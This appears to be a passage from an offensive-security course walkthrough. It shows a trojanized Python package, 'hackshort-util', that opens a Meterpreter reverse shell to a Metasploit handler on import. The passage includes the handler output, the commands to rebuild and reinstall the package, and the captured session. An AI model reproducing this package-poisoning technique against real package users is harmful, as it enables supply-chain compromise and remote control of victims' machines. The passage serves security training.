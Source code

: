 ```
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 0.0.0.0:4488
```

> Listing 25 - Starting Metasploit and Configuring Handler

Now that we have the listener waiting, let's test our package to make sure it works before publishing. Let's return to our personal Kali instance and uninstall, rebuild, and reinstall the _hackshort-util_ package. Finally, we'll start Python and import _utils_ from _hackshort_util_

```
kali@kali:~/hackshort-util$ pip uninstall hackshort-util
...

kali@kali:~/hackshort-util$ python3 ./setup.py sdist
...

kali@kali:~/hackshort-util$ pip install ./dist/hackshort-util-1.1.4.tar.gz
...

kali@kali:~/hackshort-util$ python3
Python 3.11.2 [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackshort_util import utils
>>>
```

> Listing 26 - Uninstalling, Rebuilding, Reinstalling, and Importing the hackshort-util Package

Next, we'll go back to our cloud Kali instance where we have the listener set up, and check if we obtained a reverse shell from loading the module.

```
msf6 exploit(multi/handler) >
[*] Sending stage (24772 bytes) to 233.252.50.125
[*] Meterpreter session 1 opened (10.0.1.87:4488 -> 233.252.50.125:52342)
```

> Listing 27 - Capturing Reverse Shell

We find that importing the package sent a reverse shell! Let's try to interact with the session by using the **sessions** command and the **-i** option with the _ID_ of the session (**1**). We'll exit out of this session when we interact with it since we don't need it and don't want to confuse it with the real sessions.

```
msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 233.252.50.125 - Meterpreter session 1 closed.  Reason: Died
```
